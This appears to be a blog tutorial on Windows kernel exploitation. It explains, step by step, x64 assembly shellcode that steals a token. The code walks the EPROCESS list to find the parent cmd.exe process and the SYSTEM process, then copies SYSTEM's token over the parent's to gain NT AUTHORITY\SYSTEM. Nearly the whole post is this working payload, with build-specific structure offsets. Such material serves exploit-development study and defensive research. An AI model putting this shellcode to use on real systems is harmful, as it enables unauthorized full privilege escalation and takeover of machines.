







A typical Reverse/Bind shellcode will not work when it comes to Windows Kernel Exploitation, most of the time people often use (Nulling out ACLs, Enabling privileges or Replacing process token).
TL;DR
In this post i’d like to focus on the “Replacing process token” Shellcode. So the idea here is to find a privileged process and copy his token to an unprivileged process, normally will be our parent process (remember that an exploit (exploit.exe) are executed by a command line (cmd.exe) which is the parent process).
to summarize the steps :
- Find the EPROCESS address of the current process.
- Find the EPROCESS address of the parent process.
- Find the EPROCESS address of the SYSTEM process.
- Copy the token of SYSTEM process to parent process.
- We own the NT AUTHORITY/SYSTEM.
To try this please make sure that you in a context where you have arbitrary kernel mode code execution and you can run assembly code.
Please note that you need to adopt the offsets based on the windows build number you’re using it ! Check https://www.vergiliusproject.com/ for more info.
Step 1
In our shellcode we need to start by locating the _KTHREAD* CurrentThread structure of the current process, let’s see step by step how to find it !
The GS[0] segment point at the _KPCR (Kernel Processor Control Region) structure which contains information about the processor.

In the last field of KPCR, exactly in GS[0x180] segment we can find the _KPRCB (Kernel Processor Control Region Block) structure which contains information about the current Thread.

As you can see the offset 0x08 of KPRCB point at a _KTHREAD* CurrentThread structure of the CurrentThread, which is at GS[0x188]. So first instruction in assembly will be :
mov r9, qword [gs:0x188] ; Pointing at _KTHREAD structure
Step 2

What we care more about in the _KTHREAD structure is the offset 0x220 where we can find the _KPROCESS* Process structure.
The _KPROCESS structure is first field in the _EPROCESS structure. So the address of _KPROCESS is the same as the address of _EPROCESS.
mov r9, qword [r9 + 0x220] ; Pointing at _KPROCESS/_EPROCESS structure
Step 3

As we can see the offset 0x3e8 from the _EPROCESS point at the InheritedFromUniqueProcessId which is the parent PID (cmd.exe in our case).
mov r8, qword [r9 + 0x3e8] ; Saving the Parent PID in r8
mov rax, r9 ; Saving the _KPROCESS/_EPROCESS address
To summarize

Step 4
Now we have the parent PID, it’s time to look for the _EPROCESS structure associated to it !

The offset 0x2f0 point at the _LIST_ENTRY ActiveProcessLinks structure, which is a linked-list points at the beginning of _EPROCESS structure for each Active Process.
So we need loop over them and each time we compare the PID value with the VOID* UniqueProcessId (offset 0x2e8), until we find the right _EPROCESS of the parent PID.
loop1:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0 ; Point in the beginning of _EPROCESS structure
cmp qword [rax + 0x2e8], r8 ; Compare the saved Parent PID with the UniqueProcessId
jne loop1
Step 5
Once we found the right _EPROCESS structure, we need to save the address that point at the _EX_FAST_REF Token (offset 0x360), which is the token that need to be replaced.
mov rcx, rax ; Copy the _EPROCESS address to RCX
add rcx, 0x360 ; Pointing RCX at Token
Step 6
We need to do the same thing with a privileged process. Most of the time we use the system process (PID of 4).
loop2:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0 ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4 ; Compare the PID (4) with the UniqueProcessId
jne loop2
Step 7
After we find the _EPROCESS structure of the privileged process, it’s time to replace the token of the unprivileged process (Parent PID cmd.exe) with the token of the privileged process system.
mov rdx, rax ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360 ; Pointing RDX at the Token of system
mov rdx, qword [rdx] ; Copying the Token
mov qword [rcx], rdx ; Replace the cmd.exe Token with the system Token
ret
Exploit
